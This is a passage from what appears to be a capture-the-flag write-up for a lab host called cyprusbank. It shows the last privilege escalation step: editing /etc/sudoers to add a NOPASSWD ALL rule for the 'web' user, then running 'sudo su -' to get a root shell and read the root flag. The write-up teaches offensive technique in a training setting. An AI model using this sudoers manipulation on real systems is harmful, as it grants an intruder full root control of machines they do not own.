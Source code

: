 As we can see, we were able to open the `/etc/sudoers` file with `nano`.

![Nano Sudoers File](nano_sudoers_file.webp){: width="1000" height="500" }

Now, by making the addition of `web ALL=(ALL) NOPASSWD: ALL` to the file, we can grant our current user full `sudo` privileges.

![Nano Sudoers File Two](nano_sudoers_file2.webp){: width="1000" height="500" }

After saving the file and closing both files, we can see the changes made to our `sudo` privileges.

```console
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
    (ALL) NOPASSWD: ALL
```

Finally, by simply running `sudo su -`, we can get a shell as the `root` user and read the root flag at `/root/root.txt`.

```console
web@cyprusbank:~/app$ sudo su -
root@cyprusbank:~# id
uid=0(root) gid=0(root) groups=0(root)
root@cyprusbank:~# wc -c /root/root.txt
21 /root/root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>
